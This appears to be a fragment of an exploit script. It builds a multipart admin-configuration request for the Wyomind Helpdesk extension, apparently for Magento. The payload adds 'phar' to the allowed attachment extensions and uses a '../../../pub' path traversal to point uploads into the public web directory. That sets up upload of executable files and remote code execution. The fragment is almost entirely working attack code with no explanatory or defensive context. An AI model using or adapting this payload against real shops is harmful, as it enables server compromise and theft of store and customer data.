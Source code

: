 ```
	  "Content-Disposition: form-data; name=\"groups[general][fields][ticket_prefix][value]\"\r\n" + 
	  "\r\n" + 
	  "10000\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"config_state[wyomind_helpdesk_frontend]\"\r\n" + 
	  "\r\n" + 
	  "1\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"groups[frontend][fields][menu_label][value]\"\r\n" + 
	  "\r\n" + 
	  "Support - My Tickets\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"groups[frontend][fields][top_link_enabled][value]\"\r\n" + 
	  "\r\n" + 
	  "1\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"groups[frontend][fields][attachments][value]\"\r\n" + 
	  "\r\n" + 
	  "1\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"config_state[wyomind_helpdesk_frontend_attachments_settings]\"\r\n" + 
	  "\r\n" + 
	  "1\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"groups[frontend][groups][attachments_settings][fields][attachments_extension][value]\"\r\n" + 
	  "\r\n" + 
	  "jpeg,gif,png,pdf,phar\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"groups[frontend][groups][attachments_settings][fields][attachments_directory_path][value]\"\r\n" + 
	  "\r\n" + 
	  "helpdesk/files/../../../pub\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"groups[frontend][groups][attachments_settings][fields][attachments_upload_max_filesize][value]\"\r\n" + 
	  "\r\n" + 
	  "2M\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"groups[frontend][groups][attachments_settings][fields][attachments_post_max_size][value]\"\r\n" + 
	  "\r\n" + 
	  "4M\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"config_state[wyomind_helpdesk_emails]\"\r\n" + 
	  "\r\n" + 
	  "1\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"config_state[wyomind_helpdesk_emails_customer_settings]\"\r\n" + 
	  "\r\n" + 
	  "0\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"groups[emails][groups][customer_settings][fields][confirmation_enabled][value]\"\r\n" + 
	  "\r\n" + 
	  "0\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
```